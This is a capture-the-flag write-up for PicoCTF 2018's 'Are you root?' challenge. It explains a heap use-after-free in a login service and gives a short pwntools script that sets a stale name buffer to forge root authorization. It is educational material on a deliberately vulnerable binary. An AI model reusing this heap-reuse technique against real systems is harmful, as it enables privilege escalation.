


# Are you root?

This is a 550-point binary exploitation problem (level 3) from PicoCTF 2018.

### Problem Description

Can you get root access through this [service](./auth) and get the flag? Connect with `nc 2018shell.picoctf.com 45906`. [Source](./auth.c).

### Reconnaissance

Initial recon shows we have a 64-bit ELF binary with no PIE:


Well, let's start by compiling the source code. There are no obvious security vulnerabilities that show up in compiler warnings.

This looks like a heap exploitation problem. It looks like maybe there's a use after free vulnerability. Maybe I can delete a new user, then edit the freed block somehow, then create a new user and have their authorization level magically be 5 (root).

Okay, when a user logs in, they get allocated a struct containing a pointer to their name and an authorization level. It appears that the bug is that when a user logs out, the name is freed, but the struct is not. So, I should be able to give a user a name like "555555555", log out, then create a new user and the struct allocated for the second user will contain the block of memory that previously contained the first user's name. The first eight bytes of that block will get replaced with a pointer to the new name, leaving one character, "5", remaining. I can then try to get the flag without setting auth.

Let's just try doing that:


Not bad! I have an authorization level of 53, not 5. But that's close enough that I should be able to step in with `gdb` and figure out what's generating that 3 and how to get rid of it.

Okay, the first thing I notice, stepping through the code and reproducing my efforts, is that the name and authorization level both get put in fastbins -- which don't get freed right away when a fastbin is freed.

Here I've logged in as user "555555555", I logged out, then I logged in as user "4444" and this is the heap after `malloc`ing the second username:



Well that looks like exactly what I want! Well, not quite:


I want the actual integer `5` to be stored on the stack, not the string representation of it. So my first user must have a name of "55555555\x05". Easy enough.

That gives me the flag:



Here's the exploit code:

```python
## Exploit areyouroot
## By Sudoite

from pwn import *

local = False
debug = False
if local:
	p = process('./auth')
else:
	p = remote("2018shell.picoctf.com", 45906)

if local and debug:
	gdb.attach(p, '''
		break *0x400c0c
		continue
		''')
# 0x400c0c: malloc(sizeof(user))

p.recvuntil("> ")
p.send("login 55555555\x05\n")
p.recvuntil("> ")
p.send("reset\n")
p.recvuntil("> ")
p.send("login 4444\n")
p.recvuntil("> ")
p.send("get-flag\n")
p.interactive()
```

Short and sweet.

### Comparison to Other Approaches

The three write-ups on CTF Time used exactly the same approach. I picked up one `pwntools` technique from [0n3m4ns4rmy](https://github.com/0n3m4ns4rmy/ctf-write-ups/blob/master/Pico%20CTF%202018/root/exploit.py):

`r.sendafter('> ', 'login ' + 'A'*8 + p64(0x5) + '\n')`

does the same thing as the syntax I've been using:
```python
r.recvuntil("> ")
r.send("login AAAAAAAA" + p64(0x5) + "\n")
```

Maybe I'll try that in the future.
